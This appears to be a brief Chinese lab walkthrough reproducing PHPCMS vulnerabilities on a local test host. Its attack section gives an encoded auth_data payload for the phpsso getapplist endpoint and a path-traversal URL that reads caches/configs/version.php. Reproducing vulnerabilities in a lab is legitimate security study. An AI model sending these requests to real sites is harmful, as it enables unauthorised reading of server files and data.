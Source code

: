 
# 实战
在浏览器输入
```
http://IP:PORT/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)


![image]({path}/3.png)

![image]({path}/4.png)

![image]({path}/5.png)


## 攻击实战

在浏览器输入

```
http://192.168.1.170:7777/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9+DjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQ
```


![image]({path}/6.png)


在浏览器输入

```
http://192.168.1.170:7777//index.php?m=search&c=index&a=public_get_suggest_keyword&url=asdf&q=../../caches/configs/version.php
```

![image]({path}/7.png)

